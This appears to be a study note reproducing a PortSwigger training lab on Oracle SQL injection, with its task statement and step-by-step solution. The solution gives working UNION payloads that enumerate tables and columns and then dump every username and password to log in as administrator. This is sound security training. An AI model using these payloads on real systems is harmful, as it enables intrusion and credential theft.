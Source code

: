 <mark style="background: #FF5582A6;">Q</mark>

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

<mark style="background: #BBFABBA6;">ANs</mark>

Solution


1.  Use Burp Suite to intercept and modify the request that sets the product category filter.
2.  Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:
    
    `'+UNION+SELECT+'abc','def'+FROM+dual--`
3.  Use the following payload to retrieve the list of tables in the database:
    
    `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
4.  Find the name of the table containing user credentials.
5.  Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
    
    `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--`
6.  Find the names of the columns containing usernames and passwords.
7.  Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    
    `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--`
8.  Find the password for the `administrator` user, and use it to log in.




